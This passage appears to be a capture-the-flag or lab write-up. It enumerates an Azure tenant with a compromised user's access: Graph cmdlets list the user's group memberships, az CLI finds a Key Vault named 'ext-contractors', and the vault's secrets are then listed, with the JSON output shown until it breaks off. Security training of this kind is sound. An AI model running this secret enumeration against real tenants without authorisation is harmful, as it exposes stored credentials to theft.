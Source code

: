 Since we connected to Graph, we can retrieve group membership of the user
```
└─PS> Get-MgUserMemberOf -userid "marcus@megabigtech.com" | select * -ExpandProperty additionalProperties | Select-Object {$_.AdditionalProperties["displayName"]}                                                                          

$_.AdditionalProperties["displayName"]
--------------------------------------
Directory Readers
Default Directory

```



We can check if user can access azure resources. 

```
└─PS> $CurrentSubscriptionID = "ceff06cb-e29d-4486-a3ae-eaaec5689f94"                                                                                                                                                                       
```
```
└─PS> $OutputFormat = "table" 
```
```
└─PS> az account set --subscription $CurrentSubscriptionID
```
```
└─PS> az resource list -o $OutputFormat                                                                                                                                                                                                     
Name             ResourceGroup     Location    Type                       Status
---------------  ----------------  ----------  -------------------------  --------
ext-contractors  content-static-2  eastus      Microsoft.KeyVault/vaults
```

We can see that we can access Azure Key Vault named `ext-contractors`. [Azure Key Vault](https://learn.microsoft.com/en-us/azure/key-vault/general/overview) provides a secure and centralized storage solution for cryptographic keys and secrets, such as passwords, certificates and keys used for encryption.

We also can enumerate access via the Azure Portal: https://portal.azure.com/

![](unlock-access-with-azure-key-vault-2.png)

Available resources can be viewed in `All resources` page

![](unlock-access-with-azure-key-vault-3.png)

We can list the content via CLI or via portal page
```
└─PS> az keyvault secret list --vault-name "ext-contractors" -o json                                                                                                                                                                        
[
  {
    "attributes": {
      "created": "2023-10-23T17:13:13+00:00",
      "enabled": true,
      "expires": null,
      "notBefore": null,
      "recoverableDays": 90,
      "recoveryLevel": "Recoverable+Purgeable",
      "updated": "2023-10-23T17:13:13+00:00"
    },
    "contentType": null,
    "id": "https://ext-contractors.vault.azure.net/secrets/alissa-suarez",
    "managed": null,
```